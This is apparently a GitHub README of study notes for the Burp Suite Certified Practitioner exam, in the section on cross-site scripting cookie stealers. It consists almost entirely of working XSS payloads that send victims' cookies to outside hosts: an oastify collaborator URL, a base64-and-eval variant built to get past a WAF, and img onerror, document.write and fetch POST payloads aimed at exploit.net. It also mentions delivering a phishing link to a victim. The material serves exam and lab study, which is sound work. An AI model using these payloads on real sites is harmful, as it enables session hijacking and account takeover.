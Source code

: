 
# Burp-Suite-Certified-Practitioner-Exam-Study
Burp Suite Certified Practitioner Exam Study Notes

## Cross Site Scripting

### Cookie Stealers

Search with Reflected XSS deliver Phishing link to victim with cookie stealing payload
<sub>WAF is preventing dangerous search filters and tags!</sub>
```JavaScript
fetch("https://839cktu7uogedm6a1kjuy3outlzcn2br.oastify.com/?c=" + btoa(document['cookie']))
```
<sup>Base64 encode the payload</sup>
```
ZmV0Y2goImh0dHBzOi8vODM5Y2t0dTd1b2dlZG02YTFranV5M291dGx6Y24yYnIub2FzdGlmeS5jb20vP2M9IiArIGJ0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk=
```
<sub>Test payload on our own session in Search</sub>
```JavaScript
"+eval(atob("ZmV0Y2goImh0dHBzOi8vODM5Y2t0dTd1b2dlZG02YTFranV5M291dGx6Y24yYnIub2FzdGlmeS5jb20vP2M9IiArIGJ0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk="))}//
```
![This image show after entering the above into search and the collaborator receiving request with base64 cookie value from us.](xss1.png)

Blog post comment section
```html
<img src="1" onerror="window.location='http://exploit.net/cookie='+document.cookie">
```  

Product and Store lookup
```html
?productId=1&storeId="></select><img src=x onerror=this.src='http://exploit.net/?'+document.cookie;>
```  

Stored XSS Blog post
```JavaScript
<script>
document.write('<img src="http://exploit.net?cookieStealer='+document.cookie+'" />');
</script>
```  

Fetch API Cookie Stealer
```JavaScript
<script>
fetch('https://exploit.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
